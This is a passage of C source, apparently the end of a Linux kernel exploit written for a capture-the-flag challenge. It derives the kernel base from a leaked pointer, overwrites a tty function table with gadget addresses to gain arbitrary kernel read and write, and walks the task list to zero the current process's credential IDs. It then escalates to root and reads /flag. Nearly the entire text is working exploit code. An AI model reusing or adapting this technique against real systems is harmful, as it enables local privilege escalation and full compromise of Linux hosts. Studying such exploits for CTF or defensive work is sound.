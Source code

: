 ```c
	kernel_base = fops - 0xffffffff81e65800 + 0xffffffff80e00000;
	w_gadget = kernel_base + 0xffffffff810a0333 - 0xffffffff80e00000;
	r_gadget = kernel_base + 0xffffffff81051543 - 0xffffffff80e00000;
	init_task = kernel_base + 0xFFFFFFFF82211740 - 0xffffffff80e00000;
	setup_disble_smap = kernel_base + 0xffffffff8a98f556 - 0xffffffff80e00000;

	for (i = 0; i < 0x80; i++) {
		ftable[i] = 0xdead0000 + i;
	}
    
	ftable[0] = kernel_base + 0xffffffff81419300 - 0xffffffff80e00000;//tty_struct ptr
	ftable[3] = kernel_base + 0xffffffff81418e60 - 0xffffffff80e00000;//open
	ftable[4] = kernel_base + 0xffffffff814191a0 - 0xffffffff80e00000;//close
	lseek(fd, 0, SEEK_SET);
	Write(fd, ftable, 0x400);
	
	LOG("fops is located at: %p\n", (void *)fops);
	LOG("kernel base: %p\n", (void *)kernel_base);

	pg[3] = heapAddr - 0x800; // memo address
	
	// enjoy arbitrary read and write
	slave_fd = get_ptmx_slave(tty_fd);

	// read page offset base
	unsigned long cur = init_task, cred;
	unsigned int pid;
	unsigned int this_pid = getpid();
	while(1) {
		pid = read32(cur + PID_OFFSET);
		if (pid == this_pid) {
			cred = read64(cur + CRED_OFFSET);
			LOG("Found current process(pid=%d)'s cred struct %p\n", pid, (void *)cred);
			LOG("original uid=%d, gid=%d. now escalating to root\n", read32(cred + 4), read32(cred + 8));
			write64(0x0, cred + 4);
			write64(0x0, cred + 12);
			write64(0x0, cred + 20);
			write64(0x0, cred + 28);
			LOG("now i am uid=%d\n", getuid());
			break;
		}
		cur = read64(cur + TASKS_OFFSET) - TASKS_OFFSET;
	}
	
	char flag[0x100];
	FILE *fp = fopen("/flag", "r");
	if (!fp) {
		perror("fopen");
		exit(-1);
	}
	fgets(flag, sizeof(flag), fp);
	printf("flag: %s\n", flag);

	return 0;
}

```
